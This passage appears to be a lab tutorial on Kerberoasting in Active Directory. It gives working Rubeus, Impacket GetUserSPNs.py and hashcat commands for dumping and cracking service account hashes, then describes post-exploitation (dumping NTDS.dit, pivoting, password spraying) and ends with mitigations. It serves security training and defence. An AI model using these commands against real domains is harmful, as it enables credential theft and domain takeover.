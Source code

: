 ### Kerberoasting w/ Rubeus - 

1.) `cd Downloads `- navigate to the directory Rubeus is in

2.) `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users    

![](https://i.imgur.com/XZegVqf.png)
copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat
I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt) 

3.) hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash

<center><h2>Method 2 - Impacket</h2></center>

Impacket Installation - 

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `cd /opt` navigate to your preferred directory to save tools in 

2.) download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencie

### Kerberoasting w/ Impacket - 

1.) `cd /usr/share/doc/python3-impacket/examples`/ - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.94.148 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

### Kerberoasting Mitigation -

 * Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
 * Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
